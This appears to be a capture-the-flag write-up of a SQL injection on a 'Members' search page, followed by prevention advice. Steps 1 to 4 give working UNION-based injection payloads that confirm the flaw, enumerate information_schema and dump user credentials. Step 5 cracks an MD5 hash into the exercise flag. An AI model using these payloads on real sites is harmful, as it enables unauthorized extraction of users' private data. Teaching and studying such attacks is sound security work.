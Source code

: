 # SQL Injection: Members Page Vulnerability

## Overview

A SQL Injection vulnerability found on a Members page, showing how attackers can exploit weak input validation to extract sensitive data.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- Input in search: `1 OR TRUE`
- Result: Returns all members, confirming SQL injection.

### 2. Extract DB Info
- Query: `-1 union select database(), user()`
- Result: Reveals DB name and user.

### 3. Enumerate Structure
- Query: `-1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() --`
- Result: Lists table/column names (e.g., `users`, `user_id`, `countersign`, etc.)

### 4. Dump User Data
- Query: `-1 UNION SELECT concat(Commentaire, countersign), concat(user_id,first_name,last_name, country,town,planet) FROM users --`
- Result: Exposes sensitive data, including password hashes and hints.

### 5. Crack the Flag
- Extract hash: `5ff9d0165b4f92b14994e5c685cdce28`
- MD5 decrypt: `FortyTwo` → lowercase → `fortytwo`
- SHA-256: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5` (the flag)

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM users WHERE id = ?");
    $stmt->bind_param("i", $user_id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($user_id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege DB accounts
    - Hide error messages
    - Monitor activity

4. **Web Application Firewall**
    - Deploy a WAF to block common attacks

5. **Regular Security Testing**
    - Run frequent scans and penetration tests

---

> Weak input validation can lead to full data exposure. Use secure coding practices to protect your applications.